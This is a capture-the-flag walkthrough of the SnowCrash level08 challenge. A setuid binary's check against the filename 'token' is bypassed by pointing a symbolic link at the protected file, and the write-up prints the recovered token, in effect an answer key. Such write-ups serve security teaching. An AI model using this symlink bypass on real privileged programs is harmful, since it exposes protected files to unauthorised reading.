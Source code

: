 `ls -l` </br>
```-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08``` </br>
```-rw-------  1 flag08 flag08    26 Mar  5  2016 token```

level08 seems to print the content of the file given as the first argument, however we can't read token:
```You may not access 'token'```

If we do a `strings` on the level08 binary, we can see that the programs calls strstr and that 'token' is hard written in the code.
Maybe it won't read anyfile with 'token' in the name. 

`level08@SnowCrash:~$ ./level08 /tmp/cctoken`</br>
`You may not access '/tmp/cctoken'`</br>

How to make it access and read token through a file not named 'token'?

https://techterms.com/definition/symbolic_link

We can use symbolic links: </br>

`ln -s ~/token /tmp/non` </br>
`./level08 /tmp/non` </br>
gives `quif5eloekouj29ke0vouxean`
